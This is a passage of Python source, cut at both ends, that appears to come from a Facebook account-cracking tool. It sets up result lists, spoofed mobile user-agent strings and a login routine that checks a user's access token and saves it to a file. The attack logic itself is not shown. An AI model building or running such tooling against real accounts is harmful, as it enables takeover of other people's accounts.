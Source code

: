   exit("\n [✓] Thank you so much♥️\n")
 else:
  exit()
ok = []
cp = []
id = []
user = []
num = 0
loop = 0
AYAN = requests.get
Prof_Imtiaz = open
_silet_koceng_  = requests.Session()
url_mb = "https://mbasic.facebook.com"
bulan_ttl = {"01": "Januari", "02": "Februari", "03": "Maret", "04": "April", "05": "Mei", "06": "Juni", "07": "Juli", "08": "Agustus", "09": "September", "10": "Oktober", "11": "November", "12": "Desember"}
bulan_key = {"january": "January", "february": "February", "march": "March", "april": "April", "may": "May", "june": "June", "july": "July", "august": "August", "september": "September", "october": "October", "november": "November", "december": "December"}
header_grup = {"user-agent": "Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]"}
ua_xiaomi  = 'Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
ua_nokia   = 'nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+'
ua_asus    = 'Mozilla/5.0 (Linux; Android 5.0; ASUS_Z00AD Build/LRX21V) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/37.0.0.0 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
ua_huawei  = 'Mozilla/5.0 (Linux; Android 8.1.0; HUAWEI Y7 PRIME 2019 Build/5887208) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
ua_vivo    = 'Mozilla/5.0 (Linux; Android 11; vivo 1918) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.62 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
ua_oppo    = 'Mozilla/5.0 (Linux; Android 5.1.1; A37f) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.105 Mobile Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
ua_samsung = 'Mozilla/5.0 (Linux; Android 5.0; SM-G900P Build/LRX21T; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/43.0.2357.121 Mobile Safari/537.36 [FB_IAB/FB4A;FBAV/35.0.0.48.273;]'
ua_windows = 'Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36 [FBAN/EMA;FBLC/id_ID;FBAV/239.0.0.10.109;]'
ua_realme = 'Mozilla/5.0 (Linux; Android 10; REALME RMX1911 Build/NMF26F) AppleWebKit/537.36 (KHTML, seperti Gecko) Chrome/76.0.3809.111 Mobile Safari/537.36 AlohaBrowser/2.20.3'
P = '\x1b[1;97m' # PUTIH
M = '\033[0;91m' # MERAH 
H = '\033[1;92m' # HIJAU 
K = '\033[1;91m' # KUNING 
B = '\033[0;94m' # BIRU 
U = '\033[0;95m' # UNGU 
O = '\033[0;96m' # BIRU MUDA
N = '\033[0m'	# WARNA MATI 
def login():
 os.system("rm -rf access_token.txt");logo()
 tok = input(' [*] Enter Your Token : ')
 try:
   u = requests.get('https://graph.facebook.com/me?access_token='+tok).text
   u1 = json.loads(u)
   name = u1['name']
   ts = open('access_token.txt', 'w')
   ts.write(tok)
   ts.close()
   print("\n\n[*] Login Successful as " + name )
   time.sleep(1)
